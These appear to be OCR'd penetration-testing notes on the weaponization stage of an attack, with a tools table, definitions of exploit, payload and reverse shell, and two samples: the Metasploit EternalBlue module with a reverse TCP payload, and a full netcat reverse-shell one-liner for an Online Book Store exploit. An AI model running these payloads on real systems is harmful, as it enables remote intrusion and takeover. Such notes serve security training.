 
```
    INPUT             |      PROCESS                 |       TOOLS                           |      OUTPUT
----------------------|------------------------------|---------------------------------------|------------------
    Information       |     Creation of Weapon       |       Vulnerability Repositories      |      Weapon
    Network map       |                              |       Development                     |      
        IPs           |                              |       msfconsole                      |
        Ports         |                              |       msfvenom                        |
        Services      |
        Firewalls     |
        Users         |
    Vulnerability     |            
```                                                
                                                    
[Weapon]             [Exploit]        An exploit is a code that is written to take advantage of a specific Vulnerability in a system.
                     [Payload]        Payload is the code that actually does something.    
                        [RS]         Reverse Shell that need 
                        [Malware]    Malicious Software
[Msfvenom]           Standalone payload generator
[Windows]            Weapon types: WSH, HTA, VBA, PSH


# Sample

- ms17-010 [CVE-2017-0143]
    - TOOLS       msfconsole     
    - Exploit     exploit/windows/smb/ms17_010_eternalblue 
    - Payload     windows/x64/shell/reverse_tcp
- Online Book Store 1.0 - Unauthenticated Remote Code Execution
    - TOOLS       Python   
    - Exploit     https://www.exploit-db.com/exploits/47887  
    - Payload     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.56.2 4444 > /tmp/f